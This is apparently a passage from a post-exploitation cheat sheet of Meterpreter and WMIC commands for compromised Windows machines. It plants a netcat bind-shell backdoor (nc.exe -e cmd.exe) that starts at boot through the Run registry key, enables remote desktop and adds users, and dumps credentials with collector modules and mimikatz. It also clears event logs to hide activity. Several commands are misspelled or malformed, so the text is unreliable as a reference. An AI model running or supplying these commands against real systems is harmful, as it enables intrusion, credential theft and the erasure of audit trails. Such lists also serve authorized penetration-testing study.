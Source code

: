 	* `upload/usr/share/Windows-binaries/nc.exe C:\\Windows\\system32`
* Setup the backdoor at boot
	* `reg setval -k HKLM\\software\\microsoft\\Windows\\currentversison\\run -d 'C:\Windows\system32\nc.exe -LDP 4444 -e cmd.exe' -v netcat`
* Windows Targets
* Enable remote desktop
	* `run getgui -e`
* Add users for RDP.
	`run getgui -u username -p password`
* Testing our access
	`rdesktop -u username -p password <ip_address>`
* Grab the data.
* `run winenum`
* `run post/Windows/gather/credentials/credential_collector`
* Recent files
	* `run post/Windows/gather/dumplinks` 
* `run post/Windows/gather/credentials/enum_applications` (check install apps)
* `run post/Windows/gather/credentials/local_exploit_suggester`
* `run post/Windows/gather/usb_history`
* `run event_manager -i`
* `run event_manager -c` (clear the logs)
* We can use mimikatz to extract the passwords from our targets as well when 
	* `load mimikatz`
* hashdump does not work.
* load mimikatz.
* kerberos.
* WMIC commands.
* List processes.
	*` wmic process list brief`
* Start an application.
	`wmic process call create "calc.exe"`
* Get list of process identifiers.
	`wmic process where (Name='scvhost.exe') get name, processed`
* Find a specific process.
	`wmic process list brief find "cmd.exe"`
* Collect environment variables.
	`wmic environment list`
* OS/System Report HTML Formatted.
	`wmic /output:c: OS.html OS get /format:hform`
* Turn on remote desktop remotely.
	`-wmic /node:"servername" /user:"user@domain" /password: "password" RDToggle where Server Name = "server name" call SetAllowTSConnections 1`
* Get startup list.
	`wmic startup list full`
* Collect a list of groups on the local system.
	`wmic group list brief`
* System accounts.
	`wmic sysaccount list`
* Shares list.
	`wmic shares list`
